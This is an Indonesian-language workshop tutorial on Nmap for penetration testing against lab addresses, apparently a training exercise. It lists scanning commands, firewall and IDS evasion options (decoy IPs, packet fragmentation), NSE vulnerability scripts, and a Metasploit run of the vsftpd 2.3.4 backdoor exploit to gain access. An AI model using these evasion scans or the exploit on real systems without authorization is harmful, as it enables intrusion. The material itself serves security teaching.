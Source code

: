 # Pengunaan Nmap untuk Penetration Testing

## Langkah 2: Port Scanning

### 2.1. Pemindaian Port Dasar
Pemindaian port dasar akan memindai 1000 port TCP paling umum:
```bash
nmap 10.0.2.7
```
**Hasil**: Nmap akan mengembalikan daftar port yang terbuka, tertutup, atau difilter.

### 2.2. Pemindaian Port Spesifik
Jika Anda ingin memindai port tertentu, gunakan opsi `-p`:
```bash
nmap -p 22,80,443 10.0.2.7
```
**Hasil**: Nmap akan memindai port 22 (SSH), 80 (HTTP), dan 443 (HTTPS).

### 2.3. Pemindaian UDP
Untuk memindai port UDP, gunakan opsi `-sU`:
```bash
sudo nmap -sU 10.0.2.7
```
**Hasil**: Nmap akan mengembalikan daftar port UDP yang terbuka.

## Langkah 3: Service dan Version Detection

### 3.1. Deteksi Versi Layanan
Untuk mengetahui versi layanan yang berjalan di port terbuka, gunakan opsi `-sV`:
```bash
nmap -sV 10.0.2.7
```
**Hasil**: Nmap akan mengembalikan informasi tentang layanan dan versinya.

### 3.2. Deteksi Sistem Operasi
Untuk mendeteksi sistem operasi yang berjalan pada host, gunakan opsi `-O`:
```bash
sudo nmap -O 10.0.2.7
```
**Hasil**: Nmap akan mengembalikan informasi tentang sistem operasi.

## Langkah 4: Teknik Pemindaian Lanjutan

### 4.1. Pemindaian dengan Kecepatan Tertentu
Anda dapat mengontrol kecepatan pemindaian dengan opsi `-T`:
```bash
nmap -T5 10.0.2.7
```
- `-T5`: Kecepatan maksimum (insane).
- `-T0`: Kecepatan minimum (paranoid).

**Catatan**: Semakin cepat pemindaian, semakin besar kemungkinan terdeteksi oleh sistem keamanan.

### 4.2. Pemindaian dengan Decoy
Untuk menyembunyikan alamat IP Anda, gunakan opsi `-D`:
```bash
sudo nmap -D RND:20 10.0.2.7
```
- `-D RND:20`: Menambahkan 20 alamat IP acak sebagai decoy.

**Hasil**: Pemindaian akan terlihat seperti berasal dari banyak alamat IP.

### 4.3. Pemindaian dengan Fragmentasi Paket
Untuk menghindari deteksi firewall, gunakan opsi `-f`:
```bash
sudo nmap -f 10.0.2.7
```
**Hasil**: Paket akan dipecah menjadi fragmen yang lebih kecil.

## Langkah 5: Vulnerability Scanning dengan Nmap Scripting Engine (NSE)

### 5.1. Pemindaian Kerentanan SMB
Untuk memindai kerentanan SMB, gunakan script `smb-vuln`:
```bash
nmap --script smb-vuln* 10.0.2.7
```
**Hasil**: Nmap akan mengembalikan daftar kerentanan SMB yang ditemukan.

### 5.2. Pemindaian Kerentanan FTP
Untuk memindai kerentanan FTP, gunakan script `ftp-vuln`:
```bash
nmap --script ftp-vuln* 10.0.2.13
```
**Hasil**: Nmap akan mengembalikan daftar kerentanan FTP yang ditemukan.

### 5.3. Pemindaian Kerentanan Umum
Untuk memindai semua kerentanan yang diketahui, gunakan script `vuln`:
```bash
nmap --script vuln 10.0.2.7
```
**Hasil**: Nmap akan mengembalikan daftar kerentanan yang ditemukan.

## Langkah 6: Eksploitasi Kerentanan dengan Metasploit

Setelah menemukan kerentanan, Anda dapat menggunakan Metasploit untuk mencoba mengeksploitasi kerentanan tersebut. Misalnya, untuk mengeksploitasi kerentanan pada vsftpd:
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.13
run
```
**Hasil**: Jika berhasil, Anda akan mendapatkan akses ke sistem target.

## Kesimpulan

Nmap adalah alat yang sangat powerful untuk penetration testing. Dalam workshop ini, kita telah mempelajari cara menggunakan Nmap untuk:
- **Host Discovery**
- **Port Scanning**
- **Service dan Version Detection**
- **Vulnerability Scanning**
- **Eksploitasi Kerentanan**

Selalu ingat untuk menggunakan alat ini dengan bertanggung jawab dan hanya pada sistem yang Anda memiliki izin untuk mengujinya.

---

**Referensi**:
- [Nmap Documentation](https://nmap.org/book/man.html)
- [Metasploit Framework](https://www.metasploit.com/)
